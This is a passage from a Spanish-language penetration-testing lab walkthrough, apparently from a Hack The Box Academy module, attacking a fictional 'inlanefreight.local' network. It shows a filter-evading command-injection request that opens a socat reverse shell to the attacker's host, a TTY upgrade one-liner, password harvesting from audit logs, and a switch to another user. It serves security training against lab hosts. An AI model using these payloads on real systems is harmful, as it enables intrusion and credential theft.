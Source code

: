 Ahora que hemos enumerado y atacado exhaustivamente el perímetro externo y descubierto una gran cantidad de hallazgos, estamos listos para cambiar de marcha y enfocarnos en obtener acceso estable a la red interna. Según el documento SoW, si podemos lograr una entrada interna, el cliente quiere que veamos hasta dónde podemos llegar, incluyendo obtener acceso al nivel de `Domain Admin`. En la última sección, trabajamos arduamente en desglosar las capas y encontrar aplicaciones web que llevaron a la lectura temprana de archivos o la ejecución remota de código (Remote Code Execution), pero no nos llevaron a la red interna. Terminamos obteniendo RCE (Remote Code Execution) en la aplicación `monitoring.inlanefreight.local` después de una dura batalla contra los filtros y listas negras establecidos para intentar prevenir ataques de `Command Injection`.

---

## Getting a Reverse Shell

Podemos usar [Socat](https://linux.die.net/man/1/socat) para establecer una conexión reverse shell. Nuestro comando base será el siguiente, pero necesitaremos ajustarlo un poco para pasar los filtros:

```r
socat TCP4:10.10.14.5:8443 EXEC:/bin/bash
```

Podemos modificar este comando para darnos un payload para capturar un reverse shell.

```r
GET /ping.php?ip=127.0.0.1%0a's'o'c'a't'${IFS}TCP4:10.10.14.15:8443${IFS}EXEC:bash HTTP/1.1
Host: monitoring.inlanefreight.local
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/99.0.4844.74 Safari/537.36
Content-Type: application/json
Accept: */*
Referer: http://monitoring.inlanefreight.local/index.php
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Cookie: PHPSESSID=ntpou9fdf13i90mju7lcrp3f06
Connection: close
```

Inicia un `Netcat listener` en el puerto usado en el comando Socat (8443 aquí) y ejecuta la solicitud anterior en Burp Repeater. Si todo sale como se pretende, tendremos un reverse shell como el usuario `webdev`.

```r
nc -nvlp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 51496
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm) 
```

A continuación, necesitaremos actualizar a un `interactive TTY`. Este [post](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) describe algunos métodos. Podríamos usar un método que también se cubrió en la sección [Types of Shells](https://academy.hackthebox.com/module/77/section/725) del módulo `Getting Started`, ejecutando el conocido one-liner de Python (`python3 -c 'import pty; pty.spawn("/bin/bash")'`) para generar un pseudo-terminal. Pero vamos a intentar algo un poco diferente usando `Socat`. La razón para hacer esto es obtener un terminal adecuado para que podamos ejecutar comandos como `su`, `sudo`, `ssh`, `use command completion`, y `open a text editor if needed`.

Iniciaremos un Socat listener en nuestro host de ataque.

```r
socat file:`tty`,raw,echo=0 tcp-listen:4443
```

A continuación, ejecutaremos un one-liner de Socat en el host objetivo.

```r
nc -lnvp 8443

listening on [any] 8443 ...
connect to [10.10.14.15] from (UNKNOWN) [10.129.203.111] 52174
socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp:10.10.14.15:4443
```

Si todo sale según lo planeado, tendremos una conexión reverse shell estable en nuestro Socat listener.

```r
webdev@dmz01:/var/www/html/monitoring$ id

uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
webdev@dmz01:/var/www/html/monitoring$
```

Ahora que tenemos un reverse shell estable, podemos comenzar a explorar el sistema de archivos. Los resultados del comando `id` son inmediatamente interesantes. La sección [Privileged Groups](https://academy.hackthebox.com/module/51/section/477) del módulo `Linux Privilege Escalation` muestra un ejemplo de usuarios en el grupo `adm` que tienen derechos para leer TODOS los logs almacenados en `/var/log`. Tal vez podamos encontrar algo interesante allí. Podemos usar [aureport](https://linux.die.net/man/8/aureport) para leer los logs de auditoría en sistemas Linux, con la página man describiéndolo como "aureport is a tool that produces summary reports of the audit system logs."

```r
webdev@dmz01:/var/www/html/monitoring$ aureport --tty | less

Error opening config file (Permission denied)
NOTE - using built-in logs: /var/log/audit/audit.log
WARNING: terminal is not fully functional
-  (press RETURN)
TTY Report
===============================================
# date time event auid term sess comm data
===============================================
1. 06/01/22 07:12:53 349 1004 ? 4 sh "bash",<nl>
2. 06/01/22 07:13:14 350 1004 ? 4 su "ILFreightnixadm!",<nl>
3. 06/01/22 07:13:16 355 1004 ? 4 sh "sudo su srvadm",<nl>
4. 06/01/22 07:13:28 356 1004 ? 4 sudo "ILFreightnixadm!"
5. 06/01/22 07:13:28 360 1004 ? 4 sudo <nl>
6. 06/01/22 07:13:28 361 1004 ? 4 sh "exit",<nl>
7. 06/01/22 07:13:36 364 1004 ? 4 bash "su srvadm",<ret>,"exit",<ret>
```

Después de ejecutar el comando, escribe `q` para volver a nuestra shell. Desde la salida anterior, parece que un usuario estaba intentando autenticarse como el usuario `srvadm`, y tenemos un posible par de credenciales `srvadm:ILFreightnixadm!`. Usando el comando `su`, podemos autenticarnos como el usuario `srvadm`.

```r
webdev@dmz01:/var/www/html/monitoring$ su srvadm

Password: 
$ id

uid=1003(srvadm) gid=1003(srvadm) groups=1003(srvadm)
$ /bin/bash -i

srvadm@dmz01:/var/www/html/monitoring$
```

Ahora que hemos superado filtros pesados para lograr command injection, convertir esa ejecución de código en un reverse shell, y escalado nuestros privilegios a otro usuario, no queremos perder el acceso a este host. En la siguiente sección, trabajaremos para lograr persistencia, idealmente después de escalar privilegios a `root`.